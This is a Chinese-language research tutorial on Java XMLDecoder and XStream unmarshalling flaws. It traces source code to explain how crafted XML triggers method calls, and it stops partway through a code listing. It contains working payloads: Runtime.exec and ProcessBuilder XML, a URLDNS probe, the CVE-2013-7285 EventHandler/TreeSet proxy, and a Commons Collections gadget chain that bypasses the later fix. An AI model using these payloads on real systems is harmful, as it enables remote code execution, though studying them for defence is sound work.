




mbechler 在 Java 语言生态下的其它类型反序列化漏洞中，做了一项非常具有开创性的工作。建议阅读他的研究报告 Java Unmarshaller Security Turning Your Data into Code Execution 再进行学习，或参考之前的文章 Turning Your Data into Code Execution 了解其大致内容。
JAXB
Java Architecture for XML Binding (JAXB) 提供了一种模式，可将 XML 文档与 Java 对象相互绑定。JAXB 当前最新版本是 2.0，注意在 1.0 版本中是不支持将 Java 对象 Marshal 为 XMl 文档的。
Serialize 与 Marshal
尽管在 Java 安全 - 反序列化 和 Java 安全 - 原生反序列化漏洞 中一直提及的序列化/反序列化的相关名词为 Serialize/Deserialize，但广义上讲它们（Java 原生 Serialize/Deserialize）只是冰山一角。
Serialize/Deserialize 在计算机科学中更多的是指将数据转换为字节流，它并不关心传递的数据是什么。而 Marshal/Unmarshal（编组/解组） 则更关心是，将一个运行时环境中的对象，传递至另一个运行时环境中。至于它是如何对对象进行编组的，以及以什么样的形式进行存储和传输则依赖于具体实现，常见的有 XML 和 Json 两种数据载体。后面的内容会使用编组/解组，而非序列化/反序列化。
而有关两者概念之间更具体的差异，可以参看 维基百科 中的内容。
XMLEncoder/XMLDecoder
XMLEncoder/XMLDecoder 是对 Java 原生 Marshal 机制的一种补充，具体可见文档说明：
The XMLEncoder class is a complementary alternative to the ObjectOutputStream and can used to generate a textual representation of a JavaBean in the same way that the ObjectOutputStream can be used to create binary representation of Serializable objects.
XMLEncoder 相比于 ObjectOutputStream 最大的特点是 Marshal 后的内容是可读的文本，根据文档描述它主要用于 JavaBean 的 Marshal 操作。文档中给了一个 swing UI 组件 Marshal 之后的示例
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.0" class="java.beans.XMLDecoder">
<object class="javax.swing.JFrame">
<void property="name">
<string>frame1</string>
</void>
<void property="bounds">
<object class="java.awt.Rectangle">
<int>0</int>
<int>0</int>
<int>200</int>
<int>200</int>
</object>
</void>
<void property="contentPane">
<void method="add">
<object class="javax.swing.JButton">
<void property="label">
<string>Hello</string>
</void>
</object>
</void>
</void>
<void property="visible">
<boolean>true</boolean>
</void>
</object>
</java>与 ObjectOutputStream/ObjectIntputStream 的不同
此外 XMLEncoder 与 ObjectOutputStream 还存在很多差异，这最主要的原因是因为 XMLEncoder/XMLDecoder 是针对 JavaBean 设计的，导致它们的实现逻辑存在差异。先看一段代码
// Person.java
public class Person {
public String name;
private int age;
public Person() {
this.name = "t";
this.age = 1;
}
public Person(String name, int age) {
this.name = name;
this.age = age;
}
public String getName() {
System.out.println("call getName of Person");
return name;
}
public void setName(String name) {
System.out.println("call setName of Person");
this.name = name;
}
public int getAge() {
System.out.println("call getAge of Person");
return age;
}
public void setAge(int age) {
System.out.println("call setAge of Person");
this.age = age;
}
}
// XMLEncoderTest.java
public class XMLEncoderTest {
public static void main(String[] args) throws Exception {
XMLEncoder e = new XMLEncoder(
new BufferedOutputStream(
new FileOutputStream("target/person.xml")));
e.writeObject(new Person("trganda", 18));
e.close();
}
}输出如下
call getAge of Person
call getAge of Person
call getAge of Person
call setAge of Person
call getName of Person
call getName of Person
得到的编组后的 person.xml 文件如下
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_66" class="java.beans.XMLDecoder">
<object class="com.trganda.xmldecoder.bean.Person" id="Person0">
<void class="com.trganda.xmldecoder.bean.Person" method="getField">
<string>name</string>
<void method="set">
<object idref="Person0"/>
<string>trganda</string>
</void>
</void>
<void property="age">
<int>18</int>
</void>
</object>
</java>Person 类是一个很典型的 JavaBean，XMLEncoder 在对 Person 对象进行编组时会调用 getter 或 setter 方法读取和设置属性。在 person.xml 文件中有一个很明显的差异，age 属性的内容与 name 不同完全不同，具体原因后面再分析。在这之前先了解 XMLEncoder 的编组后的 XMl 文件语法约定。
XML 语法约定
XMLEncoder 文档中有详细介绍所用的 XML 语法约定，这有助于理解生成的 XML 文件，从而在后续构造恶意的 XML 文件。
- 每个元素表示一个方法调用。
object标签表示一个表达式『自身以及子标签整体为一个表达式Expression，其它标签可看作语句Statement』，其值将可用作内部子标签元素的参数。void标签表示需要执行的语句，但它的返回值不会传递给子标签。- 包含元素的元素使用这些元素作为参数，除非它们具有标签
void，例如<void method="set">表示使用参数Person0和trganda来调用set方法。 - 而要调用的方法由
method属性指定，默认的方法为new，即通过反射调用newInstance创建对象，可见java.beans.Statement#invokeInternal。 - 当未指定
method属性值时，如果指定了property属性会使用get/set加上property属性首字母大写，也就是调用getter/setter方法。
- 包含元素的元素使用这些元素作为参数，除非它们具有标签
XML的标准id和idref属性用于引用前面的表达式，例如前面的<object idref="Person0"/>。class属性用于显式指定静态方法或构造函数所在的类的全限定名。class标签还可用于表示类型引用，例如前面的<class>javax.swing.JButton</class>
String类型会被写入标记<string>中，例如<string>trganda</string>- 数组类型的引用使用
array标记，并通过class和length属性分别指定数组的类型和长度。
大致了解了语法约定，就能看懂前面生成的 person.xml 文件了，下面为添加了注释的 person.xml
<?xml version="1.0" encoding="UTF-8"?>
<!-- JDK 版本 1.8.0_66，需使用 java.beans.XMLDecoder 进行解组 -->
<java version="1.8.0_66" class="java.beans.XMLDecoder">
<!-- 调用 com.trganda.xmldecoder.bean.Person 无参构造方法，创建一个 Person 对象，与 id Person0 关联 -->
<object class="com.trganda.xmldecoder.bean.Person" id="Person0">
<!-- 调用 com.trganda.xmldecoder.bean.Person 的 Class 对象的 getField 方法，这里使用的是反射 -->
<void class="com.trganda.xmldecoder.bean.Person" method="getField">
<!-- getField 方法的参数为 name -->
<string>name</string>
<!-- 调用上一步调用返回的 Field 的 set 方法 -->
<void method="set">
<!-- set 方法的参数为前面创建的 Person 对象，和字符串 trganda -->
<object idref="Person0"/>
<string>trganda</string>
</void>
</void>
<!-- 调用对象 Person0 的 setAge 方法 -->
<void property="age">
<!-- 参数为 18 -->
<int>18</int>
</void>
</object>
</java>EvilXMLDecoder.java
从前面的语法约定可以了解到，XMLDecoder 会按照 XML 文件中定义的内容进行方法调用，那这意味着如果能控制 XML 文件的内容，可以让它调用其它方法。
构造一个 calc.xml 文件
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_66" class="java.beans.XMLDecoder">
<object class="java.lang.Runtime" method="getRuntime">
<void method="exec">
<string>open -a calculator</string>
</void>
</object>
</java>EvilXMLDecoder.java 的代码如下
public class EvilXMLDecoder {
public static void main(String[] args) throws Exception {
XMLDecoder d = new XMLDecoder(new FileInputStream("target/calc.xml"));
Object person = d.readObject();
d.close();
}
}执行后即可弹计算器

整个解组过程的调用栈很长，这里直接挑其中涉及方法调用的代码进行分析，相关代码位于 java.beans.Statement#invokeInternal，以下为简化后的代码，整个方法的逻辑
private Object invokeInternal() throws Exception {
Object target = getTarget();
String methodName = getMethodName();
// ...
Object[] arguments = getArguments();
if (arguments == null) {
arguments = emptyArray;
}
if (target instanceof Class) {
// 默认调用 newInstance 方法
if (methodName.equals("new")) {
methodName = "newInstance";
}
// Provide a short form for array instantiation by faking an nary-constructor.
if (methodName.equals("newInstance") && ((Class)target).isArray()) {
// 如果目标类型为数组，则通过 Array.newInstance 方法创建对象
Object result = Array.newInstance(((Class)target).getComponentType(), arguments.length);
for(int i = 0; i < arguments.length; i++) {
Array.set(result, i, arguments[i]);
}
return result;
}
if (methodName.equals("newInstance") && arguments.length != 0) {
// 其它情况根据参数类型查找对应的构造方法并调用
if (target == Character.class && arguments.length == 1 &&
argClasses[0] == String.class) {
return new Character(((String)arguments[0]).charAt(0));
}
try {
m = ConstructorFinder.findConstructor((Class)target, argClasses);
}
catch (NoSuchMethodException exception) {
m = null;
}
}
if (m == null && target != Class.class) {
m = getMethod((Class)target, methodName, argClasses);
}
if (m == null) {
m = getMethod(Class.class, methodName, argClasses);
}
} else {
if (target.getClass().isArray() &&
(methodName.equals("set") || methodName.equals("get"))) {
int index = ((Integer)arguments[0]).intValue();
if (methodName.equals("get")) {
return Array.get(target, index);
} else {
Array.set(target, index, arguments[1]);
return null;
}
}
m = getMethod(target.getClass(), methodName, argClasses);
} if (m != null) {
try {
// 如果指定了 method 属性，则调用相应方法
if (m instanceof Method) {
return MethodUtil.invoke((Method)m, target, arguments);
} else {
return ((Constructor)m).newInstance(arguments);
}
} catch (IllegalAccessException iae) {
throw new Exception("Statement cannot invoke: " +
methodName + " on " + target.getClass(),
iae);
} catch (InvocationTargetException ite) {
Throwable te = ite.getTargetException();
if (te instanceof Exception) {
throw (Exception)te;
}
else {
throw ite;
}
}
}
throw new NoSuchMethodException(toString());Statement#invokeInternal 的方法调用逻辑为，
- 如果未指定
method属性，则通过反射调用newInstance方法，其中对于数组类型会特殊处理。 - 如果指定了
method属性，则通过反射调用相应的method方法。
了解了这些之后，那么构造恶意 XML 文件就更简单了。下面再是一个通过 ProcessBuilder 进行命令执行的 XML 示例
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_102" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>open</string>
</void>
<void index="1">
<string>-a</string>
</void>
<void index="2">
<string>calculator</string>
</void>
</array>
<void method="start"/>
</void>
</java>XMLDecoder 下的 URLDNS
XMLDecoder 的语法约定可以非常轻松的动态调用方法，构造一个实现 URLDNS 的 Poc 并不难，具体如下
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_66" class="java.beans.XMLDecoder">
<object class="java.net.URL">
<string>http://tea.trganda.top</string>
<void method="hashCode"/>
</object>
</java>XMLDecoder 的限制
从注释文档，能了解到，XMLDeocder 在解组时只能调用 public 方法，这一点也符合 JavaBean 的规范。相关的代码位于 com.sun.beans.finder.MethodFinder$Cache#create 的静态代码块中
static {
CACHE = new Cache<Signature, Method>(Kind.SOFT, Kind.SOFT) {
public Method create(Signature var1) {
try {
MethodFinder var2 = new MethodFinder(var1.getName(), var1.getArgs());
// [1] var1.getType().getMethods() 返回的只有 public 方法，表示查找范围。
return MethodFinder.findAccessibleMethod((Method)var2.find(var1.getType().getMethods()));
} catch (Exception var3) {
throw new SignatureException(var3);
}
}
};
}在 create 方法的 [1] 中，find 方法传入的参数来自 var1.getType().getMethods()，表示方法查找的范围，而这里调用的实际方法为 Class#getMethods()，该方法的注释中已说明它只会返回 public 方法。
Returns an array containing Method objects reflecting all the public methods of the class or interface represented by this Class object, including those declared by the class or interface and those inherited from superclasses and superinterfaces.
防护措施？
XMLEncoder/XMLDecoder 本身只是正常功能，重点在于使用者如何抉择。在默认情况下，XMLDecoder 是不会有任何过滤或检查的。但是 XMLDecoder 的 parsingComplete 方法会使用 AccessController.doPrivileged 对方法调用进行鉴权，其中成员 acc = AccessController.getContext()。
private boolean parsingComplete() {
if (this.input == null) {
return false;
}
if (this.array == null) {
if ((this.acc == null) && (null != System.getSecurityManager())) {
throw new SecurityException("AccessControlContext is not set");
}
AccessController.doPrivileged(new PrivilegedAction<Void>() {
public Void run() {
XMLDecoder.this.handler.parse(XMLDecoder.this.input);
return null;
}
}, this.acc);
this.array = this.handler.getObjects();
}但这种方式太过麻烦，而且只是通过权限进行操作限制，需要对 Java 的安全机制有一定的了解，相比之下采用更安全且易于配置的第三方 Marshal 方案是更好的选择，例如 XStream。
XStream
XStream诞生初期可一点也不安全。如无特殊说明，使用的XStream版本为1.4.6
XStream 支持将 Java 对象 Marshal 为 XML 文档，当然它也支持 Json 格式。它最大的特点是自由度很高，不再拘泥于传统的 JavaBean 的模式，无论是否有 getter/setter 方法，无论成员访问属性是否为 public 都能够进行 Marshal 操作，并且支持 final 成员和内部类。
这间接导致 XStream 覆盖的 Java 对象图『可理解成支持的类的范围』的访问更加广泛，Java 安全 - 原生反序列化漏洞 中的链条所需的类几乎都可用于 XStream，甚至不需要类实现 Serializable 接口，而且你可以通过 XStream 直接去 Marshal 代理类。这意味着，能够更加自由的动态的去调用方法。
Dinis Cruz 与 Abraham 和 Alvaro 在 DefCon 2013 的议题 “RESTing on Your Laurels Will Get You Pwned” 上展示了 XStream 的远程代码执行漏洞的利用。在开始之前先来看如何使用 XStream，以及它的一点工作机制。
XStreamMarshal.java
编写一个简单的 POJO 类 Square，其中使用了 XStream 中定义的注解 XStreamAlias 设置类的别名，用于 XML 中的标签名。也可以使用 XStream#alias 方法设置别名。
@XStreamAlias("square")
public class Square {
@XStreamAlias("size")
int size;
public int getSize() {
return size;
}
public void setSize(int size) {
this.size = size;
}
}XStreamMarshal.java 文件的内容如下
public class XStreamMarshal {
private static final XStream xstream =
new XStream() {
{
processAnnotations(Square.class);
}
};
public static void main(String[] args) {
Square sq = new Square();
sq.setSize(5);
String resultXML = xstream.toXML(sq);
System.out.println(resultXML);
}
}执行之后的输出如下
<square>
<size>5</size>
</square>如果不设置别名，生成的文件内容如下，标签会使用类的全限定名称。
<com.trganda.xstream.Square>
<size>5</size>
</com.trganda.xstream.Square>XStream 的架构设计
下面只是简单概述，具体可参考 XStream Architecture。
XStream 的工作过程分为两步，Setup 和 Execution，前者是线程不安全的。XStreamMarshal.java 中的 processAnnotations(Square.class); 就是 Setup 的一部分『否则 @XStreamAlias 不会生效』，在开始 Marshal 对象之前，需要先进行 Setup，也就是初始化 Context；而后调用 toXML 则是 Execution。
那么前面的 @XStreamAlias 是如何发挥作用的？
XStream 中定义了一个 Mapper 接口以及诸多实现类，这些 Mappers 可以链式组合在一起，如果前一个 Mapper 无法处理时会交给下一个。它们的作用之一就是支持别名；另一个主要的作用和 XStream 的安全机制有关，后续再介绍。
而引发安全隐患的部分则是 Converter。
Converter 的作用是将对象转换成 XML 文档或是完成它的逆过程。XStream 内置了许多 Converters 用于支持基础的 Java 类型，和大部分常见类。它会是后续主要关注的内容。
Converter
为了直观了解 Converter 的作用，来看一个示例。前面已经提过，在不使用别名都情况下，生成的 XML 文件的标记会使用全限定名称，显得很臃肿。而若想简化生成的 XML 内容，除了使用别名，还可以选择实现一个自定义的 Converter。
参考 官方教程。
定义一个 SquareConverter，canConvert 用于对类型进行过滤，marshal/unmarshal 对应的编组/解组操作。
public class SquareConverter implements Converter {
public boolean canConvert(Class clazz) {
// 表示只支持 Square 类型
return clazz.equals(Square.class);
}
public void marshal(
Object value, HierarchicalStreamWriter writer, MarshallingContext context) {
Square square = (Square) value;
writer.startNode("squareSize");
writer.setValue(String.valueOf(square.getSize()));
writer.endNode();
}
public Object unmarshal(HierarchicalStreamReader reader, UnmarshallingContext context) {
Square square = new Square();
reader.moveDown();
square.setSize(Integer.parseInt(reader.getValue()));
reader.moveUp();
return square;
}
}接着，需要注册 SquareConverter 至 XStream 的 Context 中
public static void main(String[] args) {
Square square = new Square();
square.setSize(10);
XStream xStream = new XStream(new DomDriver());
xStream.registerConverter(new SquareConverter());
// 此时注解 @XStreamAlias("square") 不生效，需要手动指定
xStream.alias("square", Square.class);
System.out.println(xStream.toXML(square));
}生成的内容如下
<square>
<squareSize>10</squareSize>
</square>这里有一个问题，Converter 并不能修改外层的标签的名字，还是需要用到别名。从前面的例子能够大致了解 Converter 的作用，你可以将 Converter 类比成 readObject/writeObject 的方法在 Java 原生反序列化中的作用。
动态方法执行
XStream 的会将对象转换成 XML，反之亦然。可若是想在 Unmarshal 的过程中执行命令则意味着需要能够在 Unmarshal 的过程中动态执行方法。就如同 Java 原生反序列化一样，会调用 readObject 方法。
在 Java 原生反序列化中代理类是无法被序列化的，但是在 XStream 中却不同，XStream 中的 DynamicProxyConverter 实现了 Converter 接口，它可以对代理类进行编组和解组操作。原理很简单，虽然动态代理类自身无法被序列化，但是它代理的接口和使用的 InvocationHandler 实例对象是可以的。所以可以通过这两者来恢复一个动态代理对象。下面是官网的一个示例
<dynamic-proxy>
<interface>com.foo.Blah</interface>
<interface>com.foo.Woo</interface>
<handler class="com.foo.MyHandler">
<something>blah</something>
</handler>
</dynamic-proxy>DefCon 2013 的议题 “RESTing on Your Laurels Will Get You Pwned” 的合作者之一 Alvaro 曾向 XStream 报告过一个 问题，对于类似如下的 XML 文档
<dynamic-proxy>
<interface>java.lang.Comparable</interface>
<handler class="java.beans.EventHandler">
<target class="java.lang.ProcessBuilder">
<command>
<string>open</string>
<string>-a</string>
<string>calculator</string>
</command>
</target>
<action>start</action>
</handler>
</dynamic-proxy>在通过 XStream 解组后，调用返回对象的任意方法会导致命令被执行，例如这里会打开一个计算器。本质上这就是一段命令执行的 Poc，但是还不够完善，因为无法直接在解组时触发命令的执行，而是需要在调用一次返回的对象的任意方法。
XStreamEventHandler.java
而上面的这段 XML 文档的内容，可由如下的 Java 代码生成『忽略生成的 XML 文档中的部分内容后』。
public static void main(String[] args) {
Comparable handler = EventHandler.create(Comparable.class, new
ProcessBuilder("open", "-a", "calculator"), "start");
String xml = new XStream().toXML(handler);
System.out.println(xml);
}如何在 Unmarshal 时触发？
那么现在的问题是如何在解组时直接触发命令执行？或者说，如何调用动态代理对象的任意方法。XStream 的开发者对 Alvaro 提出的问题的回复中其实已经提及了，作者给了一段示例代码
public static void main(String[] args) {
Set<Comparable> set = new TreeSet<Comparable>();
set.add("foo");
set.add(EventHandler.create(Comparable.class, new
ProcessBuilder("open", "-a", "calculator"), "start"));
}提到该问题可能由 EventHandler.create 方法引起，如果执行上面的代码则会导致命令执行。因为它会触发 put 方法导致 EventHandler 的 invoke 方法被调用，进一步导致命令执行。注意这里的 set.add("foo"); 并非必需的。
因为在 TreeMap#put 方法中，即使当前 Map 为空『root == null』，也会调用 compare(key, key) 并触发 compareTo 方法调用，同样会导致命令执行。
public V put(K key, V value) {
Entry<K,V> t = root;
if (t == null) {
compare(key, key); // type (and possibly null) check
final int compare(Object k1, Object k2) {
// 这里 k1 就是 EventHandler.create 创建的代理对象
return comparator==null ? ((Comparable<? super K>)k1).compareTo((K)k2)
: comparator.compare((K)k1, (K)k2);
}注意这里的 set.add("foo"); 并非必需的，因为在 TreeMap#put 方法中，即使当前 Map 为空『root == null』，也会调用一次 compare(key, key) 并触发 compareTo 方法调用，同样会导致命令执行，后面会分析说明。
简化调用关系梳理
TreeSet.add
// 调用 TreeMap.put
m.put(e, PRESENT)
// 调用代理对象的 compareTo 方法
cmp = k.compareTo(t.key);
// 触发 invoke 方法
EventHandler.invoke
invokeInternal(proxy, method, arguments)
// 调用 ProcessBuilder#start 方法，这里参数 newArgs 为 t.key 的值
MethodUtil.invoke(targetMethod, target, newArgs)从调用关系上看，在解组时若能调用 TreeSet#add/TreeMap#put （或是 TreeSet#addAll/TreeMapt#putAll） 那么就可以实现命令执行。而与 TreeSet 相关的 Converter 是 TreeSetConverter，它的注释已说明它的作用。
Converts a
java.util.TreeSetto XML, and serializes the associatedjava.util.Comparator. The converter assumes that the elements in the XML are already sorted according the comparator.
查看 TreeSetConverter#unmarshal 方法，在 [2] 先读取 Comparator，本例为空
public Object unmarshal(HierarchicalStreamReader reader, UnmarshallingContext context) {
TreeSet result = null;
final TreeMap treeMap;
// [2] 先读取 Comparator，本例为空
Comparator unmarshalledComparator = treeMapConverter.unmarshalComparator(reader, context, null);
boolean inFirstElement = unmarshalledComparator instanceof Mapper.Null;
Comparator comparator = inFirstElement ? null : unmarshalledComparator;
if (sortedMapField != null) {
TreeSet possibleResult = comparator == null ? new TreeSet() : new TreeSet(comparator);
Object backingMap = null;
try {
// [3] sortedMapField 是通过反射获取的 TreeSet 中的成员 m，对应类型为 TreeMap。
backingMap = sortedMapField.get(possibleResult);
} catch (IllegalAccessException e) {
throw new ConversionException("Cannot get backing map of TreeSet", e);
}
if (backingMap instanceof TreeMap) {
treeMap = (TreeMap)backingMap;
result = possibleResult;
} else {
treeMap = null;
}
} else {
treeMap = null;
}
if (treeMap == null) {
// ...
} else {
// [4] 填充内部的 TreeMap
treeMapConverter.populateTreeMap(reader, context, treeMap, unmarshalledComparator);
}
return result;
}查看 populateTreeMap 方法，
protected void populateTreeMap(HierarchicalStreamReader reader, UnmarshallingContext context, TreeMap result, Comparator comparator) {
boolean inFirstElement = comparator == NULL_MARKER;
if (inFirstElement) {
comparator = null;
}
// [5] 创建 PersortedMap
SortedMap sortedMap = new PresortedMap(comparator != null && JVM.hasOptimizedTreeMapPutAll() ? comparator : null);
if (inFirstElement) {
// we are already within the first entry
putCurrentEntryIntoMap(reader, context, result, sortedMap);
reader.moveUp();
}
// [6] 读取每个 entry 并放入前面创建的 PersortedMap
populateMap(reader, context, result, sortedMap);
try {
if (JVM.hasOptimizedTreeMapPutAll()) {
if (comparator != null && comparatorField != null) {
comparatorField.set(result, comparator);
}
// [7] 调用 TreeMap#putAll 方法
result.putAll(sortedMap); // internal optimization will not call comparator
}
// ...
} catch (final IllegalAccessException e) {
throw new ConversionException("Cannot set comparator of TreeMap", e);
}
}在 [7] 中会调用 TreeMap#putAll 方法，实际为 AbstractMap#putAll 方法
public void putAll(Map<? extends K, ? extends V> m) {
for (Map.Entry<? extends K, ? extends V> e : m.entrySet())
put(e.getKey(), e.getValue());
}内部再调用 TreeMap#put 方法
public V put(K key, V value) {
Entry<K,V> t = root;
if (t == null) {
// [8] 此处会调用一次 compare，进而调用 compareTo
compare(key, key); // type (and possibly null) check
// ...
return null;
}
int cmp;
Entry<K,V> parent;
// split comparator and comparable paths
Comparator<? super K> cpr = comparator;
if (cpr != null) {
// ...
}
else {
if (key == null)
throw new NullPointerException();
@SuppressWarnings("unchecked")
Comparable<? super K> k = (Comparable<? super K>) key;
do {
parent = t;
// [9] 此处也会调用 compareTo
cmp = k.compareTo(t.key);这里注意有两处地方都能触发 compareTo，分别是 [8] 和 [9]，
两者的不同再于，当第一次像 TreeMap 中插入元素时，调用的是 [8]，此时它是自己和自己比较，所以 cmpareTo 的参数就是自身，这意味着后续 invoke 调用方法是的参数就是它自身，所以在前面的示例中，若是不先调用 set.add("foo"); 插入一个字符串，自己插入代理对象，后续 invoke 中得到的参数是代理对象自身。因此若是利用的一个需要传递参数的方法，则不能使用 [8] 这个触发位置，好在前面利用的是 ProcessBuilder#start 方法，它是无参方法。
而后续插入新的元素调用的是 [9]，所以如果你想使用 Runtime#exec 来执行命令，则可能需要用到 [9]，并且需要先在 TreeMap 中插入一个元素，假设为 foo，这里的 foo 则会成为 compareTo 的参数。『可以参考后面的 XStreamGroovyExec.java』
了解这些内容后，只需将前面的 set 对象转换成编组之后的 XML 文档再交由 XStream 解组即可，来试试看吧
XStreamTreeSetExec.java
XStream < 1.4.7
public static void main(String[] args) {
String from =
"<tree-set>\n"
+ " <dynamic-proxy>\n"
+ " <interface>java.lang.Comparable</interface>\n"
+ " <handler class=\"java.beans.EventHandler\">\n"
+ " <target class=\"java.lang.ProcessBuilder\">\n"
+ " <command>\n"
+ " <string>calc</string>\n"
+ " <string>-a</string>\n"
+ " <string>calculator</string>\n"
+ " </command>\n"
+ " </target>\n"
+ " <action>start</action>\n"
+ " </handler>\n"
+ " </dynamic-proxy>\n"
+ "</tree-set>";
Object resultXML = new XStream().fromXML(from);
}运行之后命令被成功执行。观察调用栈会发现在解组时在 TreeMapConverter 中调用了 TreeMap#putAll 方法从而触发了 EventHandler#invoke 的执行。
简化调用关系梳理
XStream.fromXML
XStream.unmarshal
// 调用 AbstractTreeMarshallingStrategy#unmarshal
marshallingStrategy.unmarshal
// 调用 TreeUnmarshaller#start
context.start(dataHolder);
// 调用 TreeUnmarshaller.convertAnother
convertAnother(null, type)
// 调用 AbstractReferenceUnmarshaller#convert
convert(parent, type, converter);
// 调用 TreeUnmarshaller#convert
super.convert(parent, type, converter);
// 调用 TreeSetConverter#unmarshal
converter.unmarshal(reader, this)
// 调用 TreeMapConverter.populateTreeMap 填充 TreeMap 触发代理对象，导致命令成功执行。
treeMapConverter.populateTreeMap(reader, context, treeMap, unmarshalledComparator);CVE-2013-7285
影响版本 XStream < 1.4.7，在 1.4.10 版本中，若未初始化安全机制则同样受影响。其实前面提到的 Poc，就是 CVE-2013-7285
<tree-set>
<dynamic-proxy>
<interface>java.lang.Comparable</interface>
<handler class="java.beans.EventHandler">
<target class="java.lang.ProcessBuilder">
<command>
<string>open</string>
<string>-a</string>
<string>calculator</string>
</command>
</target>
<action>start</action>
</handler>
</dynamic-proxy>
</tree-set>修复方式
修复内容见 Commit Merge fix for security vulnerability from HEAD.。
修复的方式很简单，把 EventHandler 加入了『黑名单』，在 ReflectionConverter#canConvert 方法中如果待处理的类型为 EventHandler 则会拒绝。意味着 EventHandler 不会通过反射进行创建，即无法在解组时恢复 EventHandler 对象。

如同 changes 中所说的一样
java.bean.EventHandlerno longer handled automatically because of severe security vulnerability.
如何绕过？
最开始的时候，已经提过原生反序列化中的 Gadget 几乎都可在 XStream 中使用增加『并未真实测试过所有』，这是因为 XStream 中的 SerializableConverter 会调用对象的 readObject 方法。当然如果能找到一个 EventHandler 的替代品，也可以轻易绕过。
XStream版本1.4.7
下面使用 LazyMapAnnotationExec.java 中的内容构造一个恶意的 XML 文档用于执行命令。文档内容如下
<sun.reflect.annotation.AnnotationInvocationHandler serialization="custom">
<sun.reflect.annotation.AnnotationInvocationHandler>
<default>
<memberValues class="dynamic-proxy">
<interface>map</interface>
<handler class="sun.reflect.annotation.AnnotationInvocationHandler" serialization="custom">
<sun.reflect.annotation.AnnotationInvocationHandler>
<default>
<memberValues class="org.apache.commons.collections.map.LazyMap" serialization="custom">
<unserializable-parents/>
<org.apache.commons.collections.map.LazyMap>
<default>
<factory class="org.apache.commons.collections.functors.ChainedTransformer">
<iTransformers>
<org.apache.commons.collections.functors.ConstantTransformer>
<iConstant class="java-class">java.lang.Runtime</iConstant>
</org.apache.commons.collections.functors.ConstantTransformer>
<org.apache.commons.collections.functors.InvokerTransformer>
<iMethodName>getMethod</iMethodName>
<iParamTypes>
<java-class>java.lang.String</java-class>
<java-class>[Ljava.lang.Class;</java-class>
</iParamTypes>
<iArgs>
<string>getRuntime</string>
<java-class-array/>
</iArgs>
</org.apache.commons.collections.functors.InvokerTransformer>
<org.apache.commons.collections.functors.InvokerTransformer>
<iMethodName>invoke</iMethodName>
<iParamTypes>
<java-class>java.lang.Object</java-class>
<java-class>[Ljava.lang.Object;</java-class>
</iParamTypes>
<iArgs>
<null/>
<object-array/>
</iArgs>
</org.apache.commons.collections.functors.InvokerTransformer>
<org.apache.commons.collections.functors.InvokerTransformer>
<iMethodName>exec</iMethodName>
<iParamTypes>
<java-class>java.lang.String</java-class>
</iParamTypes>
<iArgs>
<string>open -a calculator</string>
</iArgs>
</org.apache.commons.collections.functors.InvokerTransformer>
</iTransformers>
</factory>
</default>
<map/>
</org.apache.commons.collections.map.LazyMap>
</memberValues>
<type>java.lang.Override</type>
</default>
</sun.reflect.annotation.AnnotationInvocationHandler>
</handler>
</memberValues>
<type>java.lang.Override</type>
</default>
</sun.reflect.annotation.AnnotationInvocationHandler>
</sun.reflect.annotation.AnnotationInvocationHandler>XStreamLazyMapAnnotationExec.java
上面的 XML 文档可以通过下面的代码生成，其中 getObject 方法与 LazyMapAnnotationExec.java 相同。
public static Object getObject() throws Exception {
// ...
}
public static void main(String[] args) throws Exception {
